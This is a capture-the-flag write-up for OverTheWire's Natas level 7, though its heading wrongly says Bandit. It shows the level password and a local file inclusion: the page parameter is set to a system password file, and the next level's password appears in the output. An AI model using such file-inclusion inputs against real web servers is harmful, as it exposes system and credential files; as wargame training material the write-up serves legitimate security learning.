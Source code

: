 # BANDIT LEVEL 7

```
http://overthewire.org/wargames/natas/natas7.html
```

```
Username: natas7
Password: 7z3hEENjQtflzgnT29q7wAvMNfZdh0i9
URL:      http://natas7.natas.labs.overthewire.org
```

<img src='index.jpg' width=500px>

### SOLUTION

Peak at the page source yields a clue in the comment..

```
<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas7", "pass": "7z3hEENjQtflzgnT29q7wAvMNfZdh0i9" };</script></head>
<body>
<h1>natas7</h1>
<div id="content">

<a href="index.php?page=home">Home</a>
<a href="index.php?page=about">About</a>
<br>
<br>

<!-- hint: password for webuser natas8 is in /etc/natas_webpass/natas8 -->
</div>
</body>
</html>
```

On the main page, when we click on the "Home" link and the "About" link it redirects to
the following URLs respectively..

```
http://natas7.natas.labs.overthewire.org/index.php?page=home
http://natas7.natas.labs.overthewire.org/index.php?page=about
```

If we give the garbage parameter `foobar` to `index.php`, we get an informative error
message..

```
http://natas7.natas.labs.overthewire.org/index.php?page=foobar

Warning: include(foobar): failed to open stream: No such file or directory in /var/www/natas/natas7/index.php on line 21

Warning: include(): Failed opening 'foobar' for inclusion (include_path='.:/usr/share/php:/usr/share/pear') in /var/www/natas/natas7/index.php on line 21
```

We see that it tries to open the file `foobar` from the file `/var/www/natas/natas7/index.php`.
So let's give `index.php` the parameter of the password file `/etc/natas_webpass/natas8`.

```
http://natas7.natas.labs.overthewire.org/index.php?page=/etc/natas_webpass/natas8

<html>
<head>
<!-- This stuff in the header has nothing to do with the level -->
<link rel="stylesheet" type="text/css" href="http://natas.labs.overthewire.org/css/level.css">
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/jquery-ui.css" />
<link rel="stylesheet" href="http://natas.labs.overthewire.org/css/wechall.css" />
<script src="http://natas.labs.overthewire.org/js/jquery-1.9.1.js"></script>
<script src="http://natas.labs.overthewire.org/js/jquery-ui.js"></script>
<script src=http://natas.labs.overthewire.org/js/wechall-data.js></script><script src="http://natas.labs.overthewire.org/js/wechall.js"></script>
<script>var wechallinfo = { "level": "natas7", "pass": "7z3hEENjQtflzgnT29q7wAvMNfZdh0i9" };</script></head>
<body>
<h1>natas7</h1>
<div id="content">

<a href="index.php?page=home">Home</a>
<a href="index.php?page=about">About</a>
<br>
<br>
DBfUBfqQG69KvJvJ1iAbMoIpwSNQ9bWe

<!-- hint: password for webuser natas8 is in /etc/natas_webpass/natas8 -->
</div>
</body>
</html>
```
